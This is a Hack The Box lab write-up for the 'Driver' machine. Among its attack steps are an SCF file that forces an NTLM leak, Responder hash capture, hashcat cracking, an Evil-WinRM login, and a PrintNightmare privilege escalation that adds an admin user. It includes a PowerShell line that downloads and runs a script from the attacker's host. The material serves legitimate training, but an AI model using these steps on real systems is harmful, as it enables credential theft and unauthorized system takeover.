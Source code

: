 ```yaml
---
title: HTB-Driver
date: 2022-07-10 11:27:10 +0200
categories: [HACK THE BOX, DRIVER]
tags: [driver]  
---
```


---
categories: [Hack the Box]
tags: [Driver]
---
 
Target machine: **10.129.195.84**  
Attack  machine: **10.10.14.11**

![Desktop View](/assets/img/HTB/Driver/Driver.png){: width="1398" height="964" }
_Driver form Hack the Box_

Before I start with hacking I always edit the **/etc/hosts** file, mostly out of ease:
```
<TARGET-IP> driver.htb
```
Now lets start with an Nmap scan to see what juicy **TCP** ports are open. 

## NMAP 
```
┌──(kali㉿kali)-[~/Documents/HacktheBox/Driver]
└─$ sudo nmap -p80,135,445,5985 -sV -sC -T4 -Pn -oA 10.129.195.84 10.129.195.84
[sudo] password for kali: 
Starting Nmap 7.92 ( https://nmap.org ) at 2021-11-19 08:51 EST
Nmap scan report for driver.htb (10.129.195.84)
Host is up (0.023s latency).

PORT     STATE SERVICE      VERSION
80/tcp   open  http         Microsoft IIS httpd 10.0
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
| http-methods: 
|_  Potentially risky methods: TRACE
| http-auth: 
| HTTP/1.1 401 Unauthorized\x0D
|_  Basic realm=MFP Firmware Update Center. Please enter password for admin
|_http-server-header: Microsoft-IIS/10.0
135/tcp  open  msrpc        Microsoft Windows RPC
445/tcp  open  microsoft-ds Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)
5985/tcp open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
Service Info: Host: DRIVER; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2021-11-19T20:51:26
|_  start_date: 2021-11-19T20:28:32
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled but not required
| smb-security-mode: 
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_clock-skew: mean: 6h59m59s, deviation: 0s, median: 6h59m59s

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 47.61 seconds


```

If we look at the **nmap** scan we see that we have a Windows server with a website on port 80, Microsoft Windows RPC on port 135 and 
an **SMB** port on 445.


Port 80 is always a good start to begin with, so let's browse to http://driver.htb.  
The site uses basic authetication and I was able to authenticate with the famous duo **admin:admin**.
	
![Desktop View](/assets/img/HTB/Driver/Website.png){: width="1286" height="770" }
_MFP Firmware Update Center_

First glance at the website shows us that this is printer management software that you can use to update the firmware.

![Desktop View](/assets/img/HTB/Driver/File_Upload.png){: width="1096" height="368" }
_File Upload_

I was able to upload my own files but none of my reverse shell attempts worked. Eventually
with some google searching I stumbled on the SMB-share file attack. You can find the article [here](https://pentestlab.blog/2017/12/13/smb-share-scf-file-attacks/).

So lets try it out.

## SMB-share file attack 

As described in the article: let's open a text editor and create the following **.scf** file: 
```
[Shell]
Command=2
IconFile=\\<ATTACK-MACHINE-IP>\share\test.ico
[Taskbar]
Command=ToggleDesktop
```
Before we upload the file make sure you have [**Responder**](https://www.kali.org/tools/responder/) listening.
```
sudo responder -wrf --lm -v -I tun0
```
Now let's upload the malicious **.scf** file we created. After the upload we will see
that **Responder** captured an **NTLM2** hash. If you are not sure with what hash you're dealing with
you can run tools like Hash-Identifier or use the [**Hashcat-wiki**](https://hashcat.net/wiki/doku.php?id=example_hashes)
or let **John the Ripper** make a guess for you.
 
```
[SMB] NTLMv2 Client   : 10.129.186.144
[SMB] NTLMv2 Username : DRIVER\tony
[SMB] NTLMv2 Hash     : tony::DRIVER:519b5e6d8014443e:84EECB86F592AD33C14BCFD75FADF8B0:010100000000000014418EE67DEBD701176F0EFA5976B78000000000020000000000000000000000

```
All you have to do now is crack the hash with your favourite tool, I used **Hashcat**.
```
hashcat -m 5600 hash /usr/share/wordlists/rockyou.txt
```
**Hashcat** successfully cracked the hash and we now have the password: **liltony**
```
TONY::DRIVER:368ad063be1dd4f9:d2065c3cf444030f336f110dece37a04:01010000000000001fb200e77debd7014f2010d0d5eab9f300000000020000000000000000000000:liltony
```
Let's try to login with **Evil-Winrm**:

```
┌──(kali㉿kali)-[~]
└─$ evil-winrm -i 10.129.186.144 -u 'tony' -p 'liltony'         

Evil-WinRM shell v2.4

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\tony\Documents> whoami
driver\tony
*Evil-WinRM* PS C:\Users\tony\Documents> 

```
Success! We've got the first user-flag:
```
*Evil-WinRM* PS C:\Users\tony\Desktop> type user.txt
4633df9a68[....]

```

## Privileged Escalation
After some enumeration I found that the **spoolsv** service is
running which is the print spooler service.  

![Desktop View](/assets/img/HTB/Driver/spoolv.png){: width="647" height="487" }

This machine could be vulnerable for the **print nightmare** exploit if the Print Spooler service improperly performs privileged file operations.
If this is the case, the machine is vulnerable for remote code execution.

So let's exploit this bad boy.


## Print Nightmare 
Source: https://0xdf.gitlab.io/2021/07/08/playing-with-printnightmare.html


Start a webserver with the **CVE-2021-1675.ps1** script 
```
python3 -m http.server
```
On the target machine, run the following to get the **CVE-2021-1675.ps1** script.
```
IEX(New-Object Net.Webclient).downloadstring('http://<ATTACK-MACHINE-IP>:8000/CVE-2021-1675.ps1')
```
You can also upload the file via the upload function of **Evil-WinRM**. 

ANYHOW... now all we have to do is run the script on the target machine:
```
*Evil-WinRM* PS C:\Users\tony\Documents> Invoke-Nightmare -NewUser "Testy" -NewPassword "Test123"

[+] created payload at C:\Users\tony\AppData\Local\Temp\nightmare.dll
[+] using pDriverPath = "C:\Windows\System32\DriverStore\FileRepository\ntprint.inf_amd64_f66d9eed7e835e97\Amd64\mxdwdrv.dll"
[+] added user Testy as local administrator
[+] deleting payload from C:\Users\tony\AppData\Local\Temp\nightmare.dll

```
This should add a new user as local administrator. 

Let's see if the **Testy** user is added 
and got the right privileges:
```
*Evil-WinRM* PS C:\Users\tony\Documents> net user Testy
User name                    Testy
Full Name                    Testy
Comment
User's comment
Country/region code          000 (System Default)
Account active               Yes
Account expires              Never

Password last set            12/7/2021 10:51:38 AM
Password expires             Never
Password changeable          12/7/2021 10:51:38 AM
Password required            Yes
User may change password     Yes

Workstations allowed         All
Logon script
User profile
Home directory
Last logon                   Never

Logon hours allowed          All

Local Group Memberships      *Administrators
Global Group memberships     *None
The command completed successfully.

```

Login with the new created account via **Evil-Winrm**
```
┌──(kali㉿kali)-[~]
└─$ evil-winrm -i 10.129.186.159 -u 'Testy' -p 'Test123'

Evil-WinRM shell v2.4

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\Testy\Documents> whoami
driver\testy

```

And we are there guys, get that beverage open and pop that bag of chips, you've earned it.

![Desktop View](/assets/img/HTB/Driver/root.png){: width="510" height="172" }
_The root.txt file_

Hope you had just as much fun as I had, see you on the next hacking adventure.


